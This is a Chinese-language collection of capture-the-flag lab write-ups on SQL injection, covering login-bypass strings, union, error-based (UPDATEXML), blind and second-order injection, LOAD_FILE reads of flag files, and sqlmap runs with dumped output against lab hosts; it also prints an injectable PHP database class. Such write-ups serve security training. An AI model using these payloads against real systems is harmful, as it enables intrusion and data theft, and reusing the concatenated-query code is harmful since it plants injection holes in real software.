# 第一题 万能密码

登录admin用户后即可获得flag

## write up

使用 `admin'-- -` 用户名登录



# 第二题 基础注入

启动环境，访问下面链接，在数据库中找到flag。

```php
select * from work where uuid = '1'
//simple check

while(strstr($uuid,'--'))
{
    $uuid = str_replace('--','',$uuid);
}

while(strstr($uuid,'#'))
{
    $uuid = str_replace('#','',$uuid);
}
```


## write up

strstr函数搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分，否则返回 FALSE。

### 使用sqlmap

#### 1.获取数据库名

-p 指定参数 

--dbs 显示数据库名

```cmd
>python sqlmap.py -u http://211.103.180.146:32985/start/index.php?uuid=1 -p uuid --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wasjcms
```


#### 2.获取数据库表名

-D 指定数据库

--tables 显示某个数据库的表名

```cmd
>python sqlmap.py -u http://211.103.180.146:32985/start/index.php?uuid=1 -p uuid --tables -D wasjcms

[23:20:41] [INFO] retrieved: work
Database: wasjcms
[3 tables]
+---------+
| Article |
| work    |
| flag    |
+---------+
```

#### 3.获取字段数据

-D 指定数据库

-T 指定表

--dump 显示数据

```cmd
>python sqlmap.py -u http://211.103.180.146:32985/start/index.php?uuid=1 -p uuid --dump -T flag -D wasjcms

Database: wasjcms
Table: flag
[1 entry]
+----+------------------+
| id | flag             |
+----+------------------+
| 1  | flag_nisp_84374f |
+----+------------------+
```


### 手工注入

因为提示过滤了 注释符,所以只能使用-#- -来注释,比如:

```http
?uuid=1'-#- -
```

注意# 号使用url编码,否者浏览器不会发送#- - 数据到后端,如下所示:

#### 1.获取原始返回行

```http
?uuid=1' ORDER BY 6-#- -
```

#### 2.联合查询

```http
?uuid=1' UNION ALL SELECT 1,2,3,4,5,6-%23- -
```

可以看到2和3 在页面有回显



#### 3.查询数据库的数据库名



```
?uuid=1' UNION ALL SELECT 1,(SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),3,4,5,6-#- -
```

#### 4.查询数据库的表名




#### 5.查询表的字段名



#### 6.获取数据




# 第三题 读取文件

启动环境，访问下面链接，在Web根目录中找到key.flag。

## write up

### 1.使用万能密码登录



### 2.查找注入点

输入单引号后,显示如下:



添加注释后, 如下:



虽然不会提示没有这个患者 ,但是他是盲注,因为他不会显示任何数据,使用sqlmap来尝试这个注入点

#### 2.1使用sqlmap

因为他有验证,使用burp将请求保存为文件,使用sqlmap 读取请求文件,这样可以简单一点:

```cmd
>python sqlmap.py -r 1.txt -p pid --dbs

available databases [5]:
[*] information_schema
[*] mylabs
[*] mysql
[*] performance_schema
[*] sys
```

读数据库的表

```cmd
>python sqlmap.py -r 1.txt -p pid -D mylabs --tables

Database: mylabs
[4 tables]
+----------+
| flagage  |
| referers |
| uagents  |
| users    |
+----------+
```

读取表中的数据

```cmd
>python sqlmap.py -r 1.txt -p pid -D mylabs -T flagage --dump

Database: mylabs
Table: flagage
[1 entry]
+----+------------------+
| id | flagnisp         |
+----+------------------+
| 1  | flag_nisp_3e620e |
+----+------------------+
```


### 3.查找其他的注入点

#### 3.1 查找注入点和原始列数

这个注入点可以,并且可以知道原始查询为15列,



#### 3.2获得回显点



#### 3.3 读取文件

使用LOAD_FILE 读取文件,==必须指定文件的完整路径名== ,如下所示:

```http
?m=patient&o=edit&pid=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,LOAD_FILE('/var/www/html/key.flag'),14,15-- -
```




# 第四题 错误注入

启动环境，访问下面链接，在数据库中找到flag。

## write up

可以看到,即使测出了数据库返回的列数,但是他并不会显示在页面上,但是会返回错误的信息



### 1.sqlmap

#### 1.1获取数据库名

```cmd
p>python sqlmap.py -u http://211.103.180.146:34982/show.php?id=33 -p id --dbs

available databases [4]:
[*] cms
[*] information_schema
[*] mysql
[*] performance_schema

```

#### 1.2 获取表

```cmd
>python sqlmap.py -u http://211.103.180.146:34982/show.php?id=33 -p id -D cms --tables

Database: cms
[9 tables]
+----------------+
| cms_article    |
| cms_category   |
| cms_file       |
| cms_flag       |
| cms_friendlink |
| cms_message    |
| cms_notice     |
| cms_page       |
| cms_users      |
+----------------+
```

#### 1.3获取数据

```cmd
>python sqlmap.py -u http://211.103.180.146:34982/show.php?id=33 -p id -D cms -T cms_flag --dump

Database: cms
Table: cms_flag
[2 entries]
+------------------+
| flag             |
+------------------+
| flag_nisp_8132bc |
|
+------------------+
```


### 2.手工注入

利用报错注入, 获得数据库名



#### 2.1获取所有数据库名

当使用GROUP_CONCAT 无法获取所有的数据

```http
?id=33+AND+UPDATEXML(1,concat(0x7e,(SELECT+GROUP_CONCAT(schema_name)+FROM+INFORMATION_SCHEMA.SCHEMATA+limit 0,1),0x7e),1)-- -
```



可以利用limit 不断迭代输出的行

```http
?id=33 AND UPDATEXML(1,concat(0x7e,(SELECT+schema_name+FROM+INFORMATION_SCHEMA.SCHEMATA limit 1,1),0x7e),1)-- -
```



#### 2.2 获取有用的表名

```http
?id=33 AND UPDATEXML(1,concat(0x7e,(SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() limit 3,1),0x7e),1)-- -
```



#### 2.3 获取表段名



#### 2.4获取数据




# 第五题 读取文件

通过SQL注入漏洞读取 /tmp/key.flag 文件，答案就在文件中。



## write up

这题存在空格过滤,但是没有过滤掉 # 号 ,但是中间的空格怎么办呢,可以使用/**/ 代替,或者可以使用() 来代替


### 2.手工注入

#### 2.1 获得列数



#### 2.2 读取数据

这里使用了/**/ 和() 来代替空格,使用load_file()来读取文件内容







# 第六题 二次注入

此题考察sql 二次注入,



## write up

### 1.思考

在id字段尝试让查询出错,但是没有作用,,注册test账号,并发表文章:



可能 他是一个insert into 的语句,

```sql
INSERT INTO table_name ( field1, field2,...fieldN )
   VALUES
   ( value1, value2,...valueN );
```

我们发表这样的数据:



我们可以得到数据库的名字:



### 2.手工注入

#### 2.1 查询所有的数据库名

这里分别使用了两个查询,第一个子查询查询所有的数据库名,第二个子查询 查询当前数据库内的所有的表



查看文章后,显示如下:



没什么提示,但是可以使用这个方法不停的查询数据库的内容


# 第7题 二次注入

登录admin获得flag

## write up

注册一个账户,登录后,



或许可以通过这个重置admin的密码

```sql
UPDATE table_name
SET column1 = value1, column2 = value2, ...
WHERE condition;
```

猜测WHERE 条件 为username='当前用户名',只要能将WHERE 条件 永远为真,那么将重置所有用户的密码,

尝试 'OR/**/1#  可以注册,但是没法登录了

尝试注册用户名为  ==admin'#==  或者==admin-- -==  之后修改密码,即可登录admin账号


# 第一题 经典注入

key在根目录下，想用你所学的知识找到它

## write up

### 绕过登陆


使用万能用户名 `'OR 1=1-- - `绕过登陆

### 寻找注入点

`http://211.103.180.146:34727/start/index.php?m=patient&o=edit&pid=1%27`

在pid=1后面添加了单引号 `'`后,出现提示

```txt
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; 
check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 1' at line 1 
in /var/www/html/start/lib/mysql.class.php:42 Stack trace: #0 /var/www/html/start/lib/mysql.class.php(42): mysqli_query() #1 /var/www/html/start/lib/mysql.class.php(95): c_mysql->select() #2 /var/www/html/start/lib/mysql.class.php(102): c_mysql->select_date() #3 /var/www/html/start/model/patient_edit.php(4): c_mysql->select_one() #4 /var/www/html/start/index.php(48): include('...') #5 {main} thrown in /var/www/html/start/lib/mysql.class.php on line 42
```

注意 `syntax to use near ''1'' LIMIT 1' `

这里并不是"1" ,在sql报错时,会使用 `'xxx'`包裹可能的报错行, 所以错误的sql语句是
`'1'' LIMIT 1`

可知道原始的查询可能是 `SELECT x FROM x WHERE x='$pid' LIMIT 1`

所以尝试注释掉后面的内容 ,使用 `pid=1%27-- -`,如下所示,页面显示正常


### 联合查询

使用 `pid=1'order by 16-- -`时,页面报错, 说明原始查询的列数为15列,

`pid=0'union select 1,2,3,4,5,6,7,8,9,0,11,12,13,14,15-- -`

将原始查询的pid 修改为不存在的值,这样就可以知道后面的联合查询 显示的位置

我们可以利用5或11或13号位置来返回需要的数据



### 读取flag

需要使用 [LOADD_FILE() 函数](https://www.cainiaoya.com/mysql/mysql-load-file.html) 来读取文件,但是这题比较坑爹,没名字也没说根到底说的哪个

`pid=0'union select 1,2,3,4,LOAD_FILE('/key'),6,7,8,9,0,11,12,13,14,15-- -`



### 源码:

```php
<?php class c_mysql
{
    protected $conn;
    protected $dbconfig;

    function __construct()
    {
        global $config;
        $this->dbconfig = $config["db"];
        for ($i = 0; $i < 10; $i++) {
            $conn = @mysqli_connect(
                $this->dbconfig["hostname"],
                $this->dbconfig["username"],
                $this->dbconfig["password"],
                $this->dbconfig["datebase"]
            );
            if ($conn) {
                $this->conn = $conn;
                mysqli_query(
                    $this->conn,
                    "SET character_set_connection=" .
                        $this->dbconfig["charset"] .
                        ", character_set_results=" .
                        $this->dbconfig["charset"] .
                        ", character_set_client=binary;"
                );
                break;
            }
            if ($i == 9) {
                exit("Database Connection Failed");
            }
        }
    }

    function sql($sql)
    {
        return mysqli_query($this->conn, $sql);
    }

    function insert($sql = "")
    {
        //  echo $sql.'<br />';
        if (empty($sql) or !$this->conn) {
            return false;
        }
        $result = mysqli_query($this->conn, $sql);
        if (!$result) {
            return false;
        }
        $insert_id = mysqli_insert_id($this->conn);
        if ($insert_id) {
            return $insert_id;
        }
        return true;
    }

    function select($sql = "")
    {
        // echo $sql."<br />";
        if (empty($sql) or !$this->conn) {
            return false;
        }
        $result = mysqli_query($this->conn, $sql);
        if (!$result) {
            return false;
        }
        $count = 0;
        $date = [];
        while ($row = mysqli_fetch_array($result)) {
            $date[$count++] = $row;
        }
        mysqli_free_result($result);
        return $date;
    }

    function update($sql)
    {
        //echo $sql;
        if (empty($sql) or !$this->conn) {
            return false;
        }
        return mysqli_query($this->conn, $sql);
    }

    function delete($sql)
    {
        if (empty($sql) or !$this->conn) {
            return false;
        }
        return mysql_query($sql);
    }

    function insert_date($table, $date)
    {
        $table = $this->dbconfig["pre"] . $table;
        $keys = [];
        foreach ($date as $key => $value) {
            $keys[] = "`" . $key . "`='" . $value . "'";
        }
        $keys = implode(", ", $keys);
        $sql = "INSERT INTO " . $table . " SET " . $keys;
        return $this->insert($sql);
    }

    function select_date(
        $table,
        $keys = "",
        $fields = "",
        $limit = "",
        $ord = "",
        $sort = "DESC"
    ) {
        $where = "";
        $table = $this->dbconfig["pre"] . $table;
        if (is_array($keys)) {
            if (!empty($keys)) {
                $array = [];
                foreach ($keys as $key => $value) {
                    $array[] = "`" . $key . "` = '" . $value . "'";
                }
                $where = implode(" and ", $array);
                $where = " WHERE " . $where;
            }
        }
        if ($fields == "") {
            $fields = "*";
        }
        $sql = "SELECT " . $fields . " FROM " . $table . $where;
        if ($ord != "") {
            $sql .= " ORDER BY " . $ord . " " . $sort;
        }
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        $result = $this->select($sql);
        if (empty($result)) {
            return false;
        }
        return $result;
    }

    function select_one(
        $table,
        $keys = "",
        $fields = "",
        $ord = "",
        $sort = "DESC"
    ) {
        $result = $this->select_date($table, $keys, $fields, 1, $ord, $sort);
        if (empty($result)) {
            return false;
        }
        return $result[0];
    }

    function update_date($table, $keys = "", $date, $limit = "")
    {
        $where = "";
        $table = $this->dbconfig["pre"] . $table;
        if (is_array($keys)) {
            if (!empty($keys)) {
                $array = [];
                foreach ($keys as $key => $value) {
                    $array[] = $key . " = '" . $value . "'";
                }
                $where = implode(" AND ", $array);
                $where = " WHERE " . $where;
            }
        }
        $dates = [];
        foreach ($date as $key => $value) {
            $dates[] = $key . " = '" . $value . "'";
        }
        $dates = implode(",", $dates);
        $sql = "UPDATE " . $table . " SET " . $dates . $where;
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        return $this->update($sql);
    }

    function delete_date($table, $date, $limit = "")
    {
        $keys = [];
        $table = $this->dbconfig["pre"] . $table;
        foreach ($date as $key => $value) {
            $keys[] = $key . "='" . $value . "'";
        }
        $keys = implode(" AND ", $keys);
        $sql = "DELETE FROM " . $table . " WHERE " . $keys;
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        return $this->delete($sql);
    }

    function transaction_start()
    {
        mysql_query("SET  AUTOCOMMIT=0");
        mysql_query("BEGIN");
    }

    function rollback()
    {
        mysql_query("ROOLBACK");
    }

    function commit()
    {
        mysql_query("COMMIT");
    }
} ?>
```

# 第二题 万能密码

登录获得flag

## write up

直接用户名框中 `'OR 1=1-- -`即可以绕过

# 第三题 基于错误的注入

flag值在数据库中，想办法拿到吧

## write up

使用简单的弱口令登陆了



### 思考

会显示我们的UA头信息,尝试修改UA头的信息,

发现有语法错误,但是页面还是显示了请求的UA信息,可以猜测 他可能只是使用变量显示出来的,

特别值的注意的是,报错的信息, 他看起来不像一个查询语句,而是像一个向数据库插入数据的语句,如:
`INSERT INTO table_name (column1,column2,column3,...) VALUES (value1,value2,value3,...);`
我们根据报错信息,可以构造一个这样的UA头:

`User-Agent: 1','ip','admim')-- -`



可以看到没有报错了,如果尝试 在某个字段读取数据,这是没有办法显示出来的,例如:


在插入语句中,如何能看到信息呢???

### 解决

利用updatexml()函数 ,利用报错,将信息返回出来,如下:

`updatexml(1,concat(0x7e,database(),0x7e),1)`



找到了数据库名,接下来就是查找数据库的表名

`updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e),1)`



有用的表名应该在 flagage 表中,所以继续枚举他的字段名

`updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flagage'),0x7e),1)`


查看flagnisp 字段的内容


### 使用sqlmap

可以尝试自动化的来解决,pte的靶机中有一个sqlmap,我们可以这样使用,

#### 1.保存请求的数据

右键选择copy to file 或者全选数据后保存到文本文件中



在命令窗口中使用以下的cmd命令:

`python sqlmap.py -r 1.txt  -p "User-Agent" --dbs`

* -r 指定请求文件
* -p 指定sql测试的字段
* --dbs 获取所有的数据库名


# 第四题 盲注入

获取数据库中的flag



## write up

按照提示,我门提供一个id作为参数,页面会显示 *你正在查询数据中* 



当使用 `' `时,页面将不会显示内容



我们可以用下面俩个来测试 盲注入:

```
?id=1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'-- -
```



```
?id=1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'-- -
```


#### burp枚举数据库名

当when()中的比较有问题时,页面将显示内容,基于这个信息,我们可以枚举数据库名:

```
?id=1' AND (SELECT CASE WHEN (LENGTH(database())=6) THEN 1/0 ELSE 'a' END)='a'-- -
```


说明当前数据库名为6个字符, 接下来就可以使用 burp 来测试每个字符:

`id=1' AND (SELECT CASE WHEN (ASCII(SUBSTRING(database(),§1§,1))=§32§) THEN 1/0 ELSE 'a' END)='a'-- -`

在§1§ 号的paylaod 选择number,这里使用1-6
在 `§32§` 号的payload 也选择number,使用32-126 (ascii的可见字符十进制)

选择集束炸弹攻击,这样将得到 数据库名字,如下,得到数据库名的第一个字符十进制:109 也就是 字符 m


但是这样非常的复杂,这种简单的还是交给sqlmap来完成吧


### sqlmap

#### 1.获取有用的数据库名

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -u "http://211.103.180.146:32687/?i
d=1" -p "id" --dbs
```

* -u 指定url

* -p 指定注入参数
* --dbs 获取所有的数据库名

获取到所有的数据库名

```cmd
available databases [5]:
[*] information_schema
[*] mylabs
[*] mysql
[*] performance_schema
[*] sys
```

#### 2.dump 数据库下所有表的数据

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -u "http://211.103.180.146:32687/?i
d=1" -p "id" --dump -D mylabs
```

--dump 获取数据

-D 指定 数据库名

这样就可以获取到这个数据库中所有表的数据,


# 第5题 基于错误的注入


## writeup

此题登录成功后,会显示UA,当修改UA 为 ==1'==  时,将提示错误,






### 1.手工注入

我们可以使用`updatexml()`  来注入,通过错误消息带回数据,当直接使用`updatexml(1,database(),1)` 时,似乎错误并没有发生

,而是需要使用`updatexml(1,concat(0x7e,database(),0x7e),1)` ,才会返回错误 ,接下来只要修改 paylaod中的database() 为其他的子查询,就可以遍历数据库了




### 2. sqlmap

使用sqlmap 来注入,

```cmd
>python sqlmap.py -r 2.txt --batch -p uname -p  passwd --dbs
```

枚举到数据库后,再使用

```cmd
>python sqlmap.py -r 2.txt --batch -p uname -p  passwd --dump -D mylabs
```

获取到mylabs 数据库中所有表的数据

